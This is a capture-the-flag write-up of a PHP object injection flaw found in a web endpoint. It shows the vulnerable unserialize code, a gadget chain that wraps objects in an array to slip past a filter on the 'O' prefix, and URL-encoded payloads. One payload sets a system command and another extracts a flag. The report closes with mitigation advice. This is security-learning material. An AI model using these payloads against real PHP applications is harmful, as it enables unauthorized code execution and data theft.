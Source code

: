 # Description

- **Type:** PHP Object Injection (POI)
- **Location:** `/supersecretscript.php?deser=`
- **Severity:** High
- **Impact:** Code execution via destruct method chain
- **Confirmed:** Yes (Flag retrieved)
- **RCE:** Not fully achieved (restricted to hardcoded command)

During reconnaissance **/robots.txt** was found with **/supersecret.php** endpoint  

```
$deser=$_GET['deser'];
if($deser){
  if(substr($deser, 0,1)=="O"){
    die('objects prohinited!');
  }else{
    var_dump(unserialize($deser));
  }
}else{
  highlight_file(__FILE__);
}
```

By passing seriliazed object through deser parameter it is possible to make gadget chain .  

**Example of serialized object**  
> O:11:"Logger__MGR":1:{s:6:"logger";O:8:"Sys__MGR":2:{s:13:"Sys__MGRcmd";s:2:"id";s:7:"message";N;}}

But since our string can't start with O, we can't insert it directly, but this can easily be avoided by wrapping it in array.  

## PoC

**To exploit Sys_MGR()**  

Correct constructed payload was achieved by following PHP object chain:  
```
$sys = new Sys__MGR();
$ref = new refClass($sys);
$prop = $ref->getProperty('cmd');
$prop->setAccessible(true);
$prop->setValue($sys, 'id');

$logger = new Logger__MGR();
$logger->logger = $sys;

$payload = array($logger); 

echo urlencode(serialize($payload));
```

**As output we got**  
> a%3A1%3A%7Bi%3A0%3BO%3A11%3A%22Logger__MGR%22%3A1%3A%7Bs%3A6%3A%22logger%22%3BO%3A8%3A%22Sys__MGR%22%3A2%3A%7Bs%3A13%3A%22%00Sys__MGR%00cmd%22%3Bs%3A6%3A%22id%22%3Bs%3A7%3A%22message%22%3BN%3B%7D%7D%7D  
![Sys_MGR](../images/sys.jpg)

Unfortunately, we were unable to obtain RCE because in 7.0-8.0 versions of PHP __wakeup() calls every time deserialization, and immideatly throws **Exception**. However even though __wakeup() threw an exception, we observed that echo 'hellow' (from close()) still appeared in the output — suggesting that Logger__MGR::__destruct() was triggered, and it attempted to call $logger->close().  

Since Sys__MGR::__wakeup() failed, the object was likely partially constructed, but enough to trigger close() — and echo 'hellow' worked, even though system($cmd) never ran.  

**To exploit Session__MGR()**  

But we have second class with some flag (I guess CTF task).  
Same logic goes here, but instead of creating Sys__MGR object we create Session_MGR object  

```
$sys = new Session__MGR();


$logger = new Logger__MGR();
$logger->logger = $sys;

$payload = array($logger);

echo urlencode(serialize($payload));
```
**Final payload:**  
> a%3A1%3A%7Bi%3A0%3BO%3A11%3A"Logger__MGR"%3A1%3A%7Bs%3A6%3A"logger"%3BO%3A12%3A"Session__MGR"%3A1%3A%7Bs%3A17%3A"%00Session__MGR%00key"%3Bs%3A4%3A"flag"%3B%7D%7D%7D  

![Logger](../images/logger.jpg)



**Mitigation**  
In order to avoid such vulnerabilities, **never unserialize user input** or use of **allowed_classes**  
 

